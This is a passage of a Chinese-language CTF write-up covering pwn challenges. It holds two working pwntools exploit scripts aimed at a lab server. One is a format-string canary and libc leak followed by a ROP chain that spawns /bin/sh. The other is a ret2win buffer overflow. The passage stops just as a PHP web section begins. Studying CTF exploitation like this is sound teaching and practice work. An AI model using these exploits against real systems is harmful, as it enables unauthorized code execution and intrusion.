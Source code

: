 2. 接著用到後面的gets達到bof + rop，然後他有開canary，所以記得canary也要放對
#### Exploit - FBS + ret2libc + BoF + ROP
:::success
到這邊應該很簡單，local也是一下子就過了，但不知道為甚麼，我發現題目給的libc.so.6和server端的不一樣，一直debug都沒有甚麼好結果，後來還是乾脆開docker在local端跑一下環境，結果竟然發現ROP的gadget真的對不到，應該說只有`pop rdx ; pop rbx ; ret`這個gadget發生問題，所以我也是直接copy出docker的libc才過的，真的是傻眼...
:::
```python
from pwn import *

# r = process('./ret2libc', env={"LD_PRELOAD" : "./libc.so.6"})
r = remote('172.31.210.1', 50002)

print(r.recvline())
payload = b'%p' * 14 + b'^'
r.sendline(payload)
stack_info = r.recvuntil(b'^')[:-1].replace(b'(nil)', b'0xdeadbeef').split(b'0x')
canary = int(stack_info[-4], 16)


libc_main = int(stack_info[-2], 16)
libc_base = libc_main - 0x24083# 0x29d90

log.info(f'{stack_info}')
log.info(f'{hex(libc_main)}')
log.info(f'{hex(libc_base)}')
log.info(f'{hex(canary)}')

pop_rax_ret = libc_base + 0x0000000000036174# 0x0000000000045eb0# : pop rax ; ret
pop_rdi_ret = libc_base + 0x0000000000023b6a# 0x000000000002a3e5# : pop rdi ; ret
pop_rsi_ret = libc_base + 0x000000000002601f# 0x000000000002be51# : pop rsi ; ret
pop_rdx_rbx_ret = libc_base + 0x0000000000015fae6# 0x00000000000904a9# : pop rdx ; pop rbx ; ret
bin_sh = libc_base + 0x00000000001b45bd# 0x00000000001d8678# : /bin/sh
syscall_ret = libc_base + 0x000000000002284d# 0x0000000000091316# : 


r.sendline(b'a' * 0x28 + p64(canary) + p64(1) + p64(pop_rax_ret) + p64(0x3b) + p64(pop_rdi_ret) + p64(bin_sh) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0) + p64(0) + p64(syscall_ret))

r.interactive()
```
### ret2win
#### Exploit - 就是簡單到不能再簡單的ret2win
```python
from pwn import *

r = remote('172.31.210.1', 50001)
# r = process('./ret2win')

r.recvline()

fn_win_addr = 0x000000000401196
r.sendline(b'a' * 0x28 + p64(fn_win_addr))
r.interactive()
```
## Web
### [教學題] 極之番『漩渦』
#### Recon
這一題有四小題，都是和PHP相關的洞，應該是個對新手都很有感覺的題目
1. 弱型別 + List
    :::spoiler Source Code